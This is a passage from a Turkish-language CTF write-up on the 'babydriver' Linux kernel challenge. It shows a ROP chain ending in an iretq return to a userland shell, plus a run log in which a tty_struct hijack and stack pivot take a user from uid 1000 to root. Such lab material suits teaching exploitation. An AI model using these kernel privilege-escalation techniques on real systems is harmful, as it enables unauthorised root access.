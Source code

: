 ```
ngn@blackarch:~/Desktop/ncstisc/babydriver# objdump -d vmlinux | grep iretq
ffffffff8181a797:	48 cf                	iretq
```
Bunu interrupt frame'i ile beraber, exploit'imize ekleyebiliriz:
```c
stack[i++] = 0xffffffff8181a797;  // iretq
stack[i++] = (uint64_t)shell;     // shell()
stack[i++] = user_cs;             // cs
stack[i++] = user_rflags;         // rflags
stack[i++] = user_rsp;            // rsp
stack[i++] = user_ss;             // ss
```
Ve bunların eklemelerin hepsi beraber, kaynak koduna [burdan ulaşabileceğiniz](../src/babydriver/exploit.c) tam exploit'imizi oluşturuyor.

Şimdi, exploit'i deneme zamanı:
```
/ $ id
uid=1000(ctf) gid=1000(ctf) groups=1000(ctf)
/ $ ./exploit.elf 
[    4.546964] device open
[    4.561529] device open
[    4.571889] alloc done
[    4.578510] device release

0000: 0x00 0xf8 0xb6 0x02 0x00 0x88 0xff 0xff 0xa0 0x5d 
0010: 0x9e 0x00 0x00 0x88 0xff 0xff 0x00 0x00 0x00 0x00 
...
0720: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x00 
0730: 0x00 0x00 0x00 0x00 0x00 

0000: 0x01 0x54 0x00 0x00 0x01 0x00 0x00 0x00 0x00 0x00 
0010: 0x00 0x00 0x00 0x00 0x00 0x00 0x00 0x5f 0x9f 0x02 
...
0720: 0xd0 0x9d 0x4d 0x81 0xff 0xff 0xff 0xff 0x00 0x48 
0730: 0xb4 0x02 0x00 0x88 0xff 
obtained the tty_struct
new ioctl: 0xffffffff81154d2a
using gadget to switch to 0x7fff3bb9b770
should return to shell() at 0x4011e5
exploit was successful, popping a shell
/ # id
uid=0(root) gid=0(root)
/ #
```

Güzel, gördüğünüz gibi son exploit'e yeni stack'in adresini basması için bir `printf()` ekledim. Dilerseniz `ioctl()` için kullandığımız gadget'a
bir breakpoint yerleştirip, ROP'u takip ederek stack'in değişmesini ve `shell()`in çağrılmasını adım adım takip edebilirsiniz.

---
[Önceki](babydriver_no_smep.md) | [Sonraki](end.md)
